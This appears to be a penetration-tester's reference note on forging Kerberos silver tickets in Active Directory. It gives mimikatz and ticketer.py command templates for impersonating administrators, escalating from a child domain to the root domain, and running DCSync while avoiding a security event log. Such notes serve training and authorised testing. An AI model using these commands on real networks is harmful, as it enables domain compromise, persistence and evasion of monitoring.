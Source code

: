 # Active_Directory - Kerberos Silver Tickets

### Overview

`Service tickets` are generated by the `Ticket-Granting Service (TGS)` of the
`Key Distribution Center (KDC)` and used by clients to access domain ressources
exposed through service accounts, i.e user accounts that have a
`ServicePrincipalName (SPN)` configured.

`Service tickets` are generated by the `TGS` upon reception of a valid
`Ticket-Granting Ticket (TGT)` using:
  - One of the secrets (`RC4 key`, whose value is identical to the `NTLM` hash,
    or `AES 128/256 bits keys`) of the `krbtgt` account (`KDC Signature`).
  - One of the secrets of the targeted service account (`Server Signature` and
    encryption of the `TGS`).

However, as the service account has no knowledge of the the `krbtgt` account's
secrets, no verification is done by default on the `KDC Signature` signature
upon receipt and verification of the validity of a `service ticket`. Thus, in
the majority of environment, only the knowledge of one of the secrets of the
targeted service account is necessary for the generation of valid
`service tickets` for the service (and renewals of the `krbtgt`'s password do
not invalidate the crafted `service tickets`).

Note that the `Kerberos PAC Validation` mechanism can be enabled on a service
to enforce a systematic verification of the `service tickets`'s
`Privilege Attribute Certificate (PAC)` `KDC Signature` signature with a
request to the `KDC`. As the additional verification induced by the mechanism
requires an exchange between the server hosting the service and the `KDC`, its
activation can cause significant performance degradation.

For more information on the `Kerberos` protocol, refer to the `ActiveDirectory
- Kerberos Golden Tickets` note.

To generate a `silver ticket`, the following prerequisites are needed:
 - The fully qualified domain name and the `SID` of the targeted domain.
 - The `SPN` and one of the secrets of the targeted service account.

###### Computers services and machine account exploitation

Windows systems integrated to an Active Directory domain expose a number of
services, executed under the machine account authority. These services can be
leveraged to remotely access and execute commands on a machine. As such, the
compromise of one of the machine account secrets can be used to generate
`silver tickets` allowing for remote code execution.

`Silver tickets` for machine services can notably be used for persistence after
the compromise of a machine or an Active Directory domain (as the secrets of
the machine accounts of all the machines integrated to the domain are stored in
the `ntds.dit` databse). Additionally, if a machine exposes the Windows
`SpoolerService` service, through the `MS-RPRN` `MSRPC` interface, and is
configured to permit the use of `NetNTLMv1` (`LMCompatibilityLevel` attribute
set to 2 or lower), an authentication from the machine to an arbitrary host in
`NetNTLMv1` can be remotely triggered and futher captured, to ultimately crack
the `NetNTLMv1` hash and retrieve the machine account `NTLM` hash. For more
information on the attack refer to the `[L7] MSRPC` and `[ActiveDirectory] NTLM
capture and relay` notes.

Different services are exposed on Windows systems integrated to an Active
Directory domain and can be targeted, through their respective `SPN` in the
form of `<SERVICE_NAME>/<MACHINE_HOSTNAME>`, for persistence and remote access:

| Possible operation | Service(s) | Description | Related note |
|--------------------|------------|-------------|--------------|
| `PsExec`-like <br/> file system access | `CIFS` | Remote execution of commands using `PsExec`-like utilities or full access to the machine file system. | `Windows - Lateral movements` <br/> `[L7] 445 - SMB` |
| `WMI` | `HOST` <br/> `RPCSS` | Remote execution of commands through `Windows Management Instrumentation (WMI)` (`Win32_Process` class for example). | `Windows - Lateral movements` |
| `WinRM` | `HOST` <br/> `HTTP` <br/> `RPCSS` <br/> `WSMAN` | `PowerShell remoting` through `Windows Remote Management (WinRM)`. | `Windows - Lateral movements` <br/> `[L7] 5985-5968 - WSMan` |
| Scheduled tasks | `HOST` | Remote creation and/or execution of Windows scheduled tasks. | `Windows - Lateral movements` |
| `DCSync` <br/> LDAP access  | `LDAP` | `LDAP` requests, and notably allows, for `service tickets` to the `LDAP` service of a `Domain Controller`, the conduct of replication operations (`DCSync`). | `[ActiveDirectory] ntds.dit dumping` |
| `RSAT` | `CIFS` <br/> `LDAP` <br/> `RPCSS` | Use of the PowerShell cmdlets of the Windows `Remote Server Administration Tools (RSAT)` suite. | `[ActiveDirectory] Domain Recon` |

The `HOST` service for Windows machines includes a set of machine built-in
Windows services, such as the `HTTP`, `SCM` and `SCHEDULE` services, etc.

The exhaustive list of services exposed on a Windows machine integrated to an
Active Directory domain can be retrieved using the following PowerShell
command:

```
# DOMAIN_ROOT_OBJECT = "DC=LAB,DC=AD" for example

Get-ADObject -Identity "CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,
<DOMAIN_ROOT_OBJECT>" -properties sPNMappings.
```

### Silver tickets generation

The `mimikatz` utility on Windows and the `impacket`'s `ticketer.py` Python
script can be used to generate `silver tickets`:

```
# (mimikatz) /id: / (ticketer.py) -user-id <USER_RID>
# Impersonated user Relative ID (RID). Default to 500 (Built-in Administrator account RID).

# (mimikatz) /groups: / (ticketer.py) -groups <GROUP_RID | GROUP_RIDS_LIST>
# Impersonated groups membership, in the form of one or a list of groups RID. Default groups RIDs: 513 (Domain Users), 512 (Domain Admins), 520 (Group Policy Creator Owners), 518 (Schema Admins), and 519 (Enterprise Admins, only effective if targeting the root domain).

# (mimikatz) /sids: / (ticketer.py) -extra-sid <EXTRA_SID | EXTRA_SIDS_LIST>
# Additional and arbitrary SID(s) (that may or may not belong to the current domain) to include in the PAC, as if the SIDs were definied in the `SIDHistory` attribute of a domain user.

# (mimikatz) /ptt - Directly inject the generated silver ticket in memory

mimikatz.exe "kerberos::golden /user:<IMPERSONATED_USERNAME> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> /target:<TARGETED_SERVER_FQDN> [/rc4:<TARGETED_SERVICE_ACCOUNT_NTLM_HASH> | /aes128:<TARGETED_SERVICE_ACCOUNT_AES128_KEY> | /aes256:<TARGETED_SERVICE_ACCOUNT_AES256_KEY>] /service:<TARGETED_SERVICE_NAME> [/id:<USER_RID>] [/groups:<GROUP_RID | GROUP_RIDS_LIST>] [/sids:<EXTRA_SID | EXTRA_SIDS_LIST>] /ptt" "exit"

ticketer.py -domain <DOMAIN_FQDN> -domain-sid <DOMAIN_SID> -spn <SERVICE_FULL_SPN> [-nthash <TARGETED_SERVICE_ACCOUNT_NTLM_HASH> | -aesKey <TARGETED_SERVICE_ACCOUNT_AES128_KEY | TARGETED_SERVICE_ACCOUNT_AES256_KEY>] [-user-id <USER_RID>] [-groups <GROUP_RID | GROUP_RIDS_LIST>] -[extra-sid <EXTRA_SID | EXTRA_SIDS_LIST>] <IMPERSONATED_USERNAME>

# Impersonates an user member of the "Enterprise Admins" group of the root domain in order to compromise the root domain from any trusted child domain.
# For more information, refer to the "Active Directory - Trusts hopping" note.
mimikatz.exe "kerberos::golden /user:<IMPERSONATED_USERNAME> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> /target:<TARGETED_SERVER_FQDN> [/rc4:<TARGETED_SERVICE_ACCOUNT_NTLM_HASH> | /aes128:<TARGETED_SERVICE_ACCOUNT_AES128_KEY> | /aes256:<TARGETED_SERVICE_ACCOUNT_AES256_KEY>] /service:<TARGETED_SERVICE_NAME> /sids:"S-1-5-21-<ROOT_DOMAIN_IDENTIFIER-AUTHORITY>-519" /ptt" "exit"

# Impersonates a Domain Controller in order to conduct DCSync attack without generating Windows "Security" events ("Event 4662: An operation was performed on an object").
# The <IMPERSONATED_DC_RID> can be obtained using:
(New-Object System.Security.Principal.NTAccount("<DOMAIN>","<DC_MACHINE_ACCOUNT")).Translate([System.Security.Principal.SecurityIdentifier]).Value
# For more information, refer to the "Active Directory - ntds.dit dumping" note.
mimikatz.exe "kerberos::golden /user:<IMPERSONATED_DC_MACHINE_ACCOUNT> /domain:<DOMAIN_FQDN> /sid::<DOMAIN_SID> /target:<TARGETED_DC_FQDN> [/rc4:<TARGETED_DC_MACHINE_ACCOUNT_NTLM_HASH> | /aes128:<TARGETED_DC_MACHINE_ACCOUNT_AES128_KEY> | /aes256:<TARGETED_DC_MACHINE_ACCOUNT_AES256_KEY>] /service:ldap /id:<IMPERSONATED_DC_RID> /groups:"516" /sids:"S-1-5-21-<DOMAIN_IDENTIFIER-AUTHORITY>-516,S-1-5-9" /ptt" "exit"
```

### Silver tickets usage

On Windows, `silver tickets` generated using `mimikatz` will be automatically
injected in memory if the `/ptt` option is specified. Otherwise, an exported
`silver ticket` can be injected in memory using `mimikatz.exe "kerberos::ptt
<TICKET_FILE_PATH>`.

The `klist` Windows built-in utility can then be used to list the currently
cached `Kerberos` tickets for the present user session:

```
CMD> klist

Cached Tickets: (X)
[...]
```

On Linux, a `silver ticket` generated using `ticketer.py` can be exported in
the `KRB5CCNAME` environment variable for futher use through tools supporting 
the `Kerberos` protocol, such as others `impacket` Python utilities:

```
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>
```

On a `meterpreter` shell, the `kiwi` `kerberos_ticket_list` command can be
used instead:

```
kerberos_ticket_list
```
